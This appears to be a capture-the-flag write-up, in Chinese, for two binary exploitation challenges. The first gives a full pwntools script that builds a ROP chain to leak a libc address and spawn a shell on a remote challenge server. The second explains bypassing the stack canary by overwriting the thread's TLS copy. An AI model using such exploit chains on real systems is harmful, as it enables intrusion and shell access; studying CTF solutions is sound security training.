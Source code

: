 # enter_the_pwn_land

ret2rop，需要注意的就是它循环的 i 的值会被修改所以得手工调一下

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process('./a.out')
sh = remote('chuj.top', 31525)
elf = ELF('./a.out')
libc = ELF('./libc-2.31.so')

pop_rdi_ret_addr = 0x0401313
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
test_thread_addr = elf.sym['test_thread']
ret_addr = 0x040101a

# gdb.attach(sh, 'b puts')
sh.send(b'8'*(0x30-0x04)+p32(0x30-0x04))
payload = b'A'*8
payload += p64(pop_rdi_ret_addr) + p64(puts_got) + p64(puts_plt) + p64(test_thread_addr)
sh.sendline(payload)
sh.recvline()
puts_addr = u64(sh.recvuntil('\n', drop=True).ljust(8, b'\x00'))
print(hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
sh.send(b'8'*(0x30-0x04)+p32(0x30-0x04))
payload = b'A'*8
payload += p64(ret_addr) + p64(pop_rdi_ret_addr) + p64(bin_sh_addr) + p64(system_addr) + p64(0)
sh.sendline(payload)
sh.interactive()

```

# enter_the_evil_pwn_land

主要是绕过 Canary 的过程。

这题想要让我们搞清楚的是，创建线程时会顺便创建一个 TLS 用于储存诸如 canary 一类的值，且会用于比较 canary 是否被修改。这个 TLS 是存储在 Stack 高地址的，这意味着我们有一并修改 TLS 中 canary 值的机会。

但是值得注意的是，当溢出这么多字节时，势必会对程序本身进行破坏导致 crash（修改了诸如 tcb, dtv, self 等指针），因此我们可以在本地调试时先用 gdb 调出 offset，再直接计算 libc_base。
